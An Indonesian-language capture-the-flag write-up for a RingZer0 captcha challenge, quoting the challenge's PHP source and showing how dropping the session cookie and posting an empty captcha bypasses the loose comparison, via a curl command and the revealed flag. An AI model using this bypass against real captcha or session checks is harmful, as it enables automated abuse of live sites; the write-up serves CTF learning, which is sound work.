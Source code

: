 <h1><b>Unreadable captcha</h1></b>
<pre>
Diberikan sebuah link captcha challenger
</pre>
</b><h3>Solution</h3></b>
<p align='justify'>Jika kita membaca captchanya itu merupakan character diluar standard ascii. Lakukan inspect element dan perhatikan paling bawah terdapat file txt yaitu source code
dari challenger tersebut dan buka --> http://challenges.ringzer0team.com:10142/captcha3.txt</p>

```php
<?php
session_start();
if ($_SERVER['REQUEST_METHOD'] === 'POST'){
	if (isset($_POST['captcha'])){
		if ($_POST['captcha'] == $_SESSION['captcha']){
		echo 'Congrats, the flag is XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX' ;  
		} else {
		echo 'You have a wrong captcha. You are not a human. Try again later.';
}
	} else {
   header( 'Location: index.php' ) ;
}

}
else {
   header( 'Location: index.php' ) ;
}
?>
```
<p>Dari program diatas flag dapat diperoleh jika Captcha dilakukan request POST dan captcha-nya berupa Session. Tips hapus session cookie dengan tool edit cookie dan captcha set null, lalu submit maka flag akan muncul atau dengan perintah curl terminal dibawah</p>

```console
root@Python:/home/venom/Downloads# curl http://challenges.ringzer0team.com:10142/captcha3.php --data "captcha="
Congrats, the flag is FLAG-siLqVmuuEDDFtz9jqIFIAOQmCF
root@Python:/home/venom/Downloads# 

```
</b><h3>Flag</h3></b>
<pre>
FLAG-siLqVmuuEDDFtz9jqIFIAOQmCF
</pre>
